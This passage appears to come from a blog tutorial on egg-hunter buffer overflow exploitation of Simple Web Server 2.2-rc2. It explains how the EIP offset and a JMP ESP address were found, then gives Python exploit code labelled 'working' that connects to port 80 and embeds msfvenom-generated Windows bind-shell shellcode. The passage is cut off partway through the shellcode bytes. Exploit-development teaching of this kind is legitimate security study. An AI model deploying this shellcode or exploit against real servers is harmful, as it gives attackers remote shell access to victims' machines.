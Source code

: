 ```python
```

Here's how that overflow would look like:

<p align="center"><img src="/img/blog/2019/egg-hunting/1*eH8T1ldVPxSJ0PlkSaZsqQ.png" /></p>

To find the exact number of bytes after which EIP is getting overwritten, we will send the Metasploit pattern. The offset comes out to be 2048 bytes.

<p align="center"><img src="/img/blog/2019/egg-hunting/1*zPwlYoNGL6KcqhI6GVPNKA.png" /></p>

And, we quickly get the `JMP ESP` sorted out too:

<p align="center"><img src="/img/blog/2019/egg-hunting/1*mUc0oilrar0h_XTR-5WVTg.png" /></p>

Time to generate some venom! Since we are doing this the egg hunting way, the `shellcode` variable in my skeleton code would contain the hex version of egg hunter. So, for `egghunter` I have used the hex equivalents (opcodes) mentioned above, but `!mona egghunter` can also generate it for you (as shown in opening image of this blog). There will be another variable `payload` that would contain the venom with a prefix of egg being repeated twice. But I have to ensure the `payload` is already there in the memory while `egghunter` is getting executed. For that, I'll be sending `payload` as part of the **User-Agent** header. Enough talk, here is the code:

```python
# Working exploit code for Simple Web Server 2.2-rc2
# Author: Prashant Kumar (@notsoshant)

import os
import sys
import socket

ip = "127.0.0.1"
socket = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
socket.connect((ip , 80))

# Generating Payload

# msfvenom -p windows/shell_bind_tcp -f python -v shellcode -b \x00\x0a\x0d\xff
shellcode =  ""
shellcode += "\xd9\xed\xb8\x82\xe2\xb1\x10\xd9\x74\x24\xf4\x5e"
shellcode += "\x29\xc9\xb1\x53\x31\x46\x17\x83\xc6\x04\x03\xc4"
shellcode += "\xf1\x53\xe5\x34\x1d\x11\x06\xc4\xde\x76\x8e\x21"
shellcode += "\xef\xb6\xf4\x22\x40\x07\x7e\x66\x6d\xec\xd2\x92"
shellcode += "\xe6\x80\xfa\x95\x4f\x2e\xdd\x98\x50\x03\x1d\xbb"
shellcode += "\xd2\x5e\x72\x1b\xea\x90\x87\x5a\x2b\xcc\x6a\x0e"
shellcode += "\xe4\x9a\xd9\xbe\x81\xd7\xe1\x35\xd9\xf6\x61\xaa"
shellcode += "\xaa\xf9\x40\x7d\xa0\xa3\x42\x7c\x65\xd8\xca\x66"
shellcode += "\x6a\xe5\x85\x1d\x58\x91\x17\xf7\x90\x5a\xbb\x36"
shellcode += "\x1d\xa9\xc5\x7f\x9a\x52\xb0\x89\xd8\xef\xc3\x4e"
shellcode += "\xa2\x2b\x41\x54\x04\xbf\xf1\xb0\xb4\x6c\x67\x33"
shellcode += "\xba\xd9\xe3\x1b\xdf\xdc\x20\x10\xdb\x55\xc7\xf6"
shellcode += "\x6d\x2d\xec\xd2\x36\xf5\x8d\x43\x93\x58\xb1\x93"
shellcode += "\x7c\x04\x17\xd8\x91\x51\x2a\x83\xfd\x96\x07\x3b"
shellcode += "\xfe\xb0\x10\x48\xcc\x1f\x8b\xc6\x7c\xd7\x15\x11"
shellcode += "\x82\xc2\xe2\x8d\x7d\xed\x12\x84\xb9\xb9\x42\xbe"
shellcode += "\x68\xc2\x08\x3e\x94\x17\xa4\x36\x33\xc8\xdb\xbb"
shellcode += "\x83\xb8\x5b\x13\x6c\xd3\x53\x4c\x8c\xdc\xb9\xe5"
shellcode += "\x25\x21\x42\x18\xea\xac\xa4\x70\x02\xf9\x7f\xec"
shellcode += "\xe0\xde\xb7\x8b\x1b\x35\xe0\x3b\x53\x5f\x37\x44"
shellcode += "\x64\x75\x1f\xd2\xef\x9a\x9b\xc3\xef\xb6\x8b\x94"
shellcode += "\x78\x4c\x5a\xd7\x19\x51\x77\x8f\xba\xc0\x1c\x4f"
shellcode += "\xb4\xf8\x8a\x18\x91\xcf\xc2\xcc\x0f\x69\x7d\xf2"
shellcode += "\xcd\xef\x46\xb6\x09\xcc\x49\x37\xdf\x68\x6e\x27"
shellcode += "\x19\x70\x2a\x13\xf5\x27\xe4\xcd\xb3\x91\x46\xa7"
shellcode += "\x6d\x4d\x01\x2f\xeb\xbd\x92\x29\xf4\xeb\x64\xd5"
```